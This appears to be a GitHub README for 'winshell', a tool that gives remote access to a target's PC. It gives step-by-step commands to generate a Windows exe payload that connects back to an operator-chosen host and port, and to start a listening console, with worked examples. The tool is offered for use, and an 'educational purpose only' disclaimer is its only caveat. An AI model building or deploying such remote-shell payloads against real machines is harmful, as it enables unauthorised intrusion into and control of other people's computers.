 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 


Download and Run
------------------------
git clone https://github.com/EH30/winshell   
cd winshell   
pip install -r requirements.txt   
Genrate exe file: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]   
Listener console: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1   



Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   
   
   
   

Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_example.JPG">   


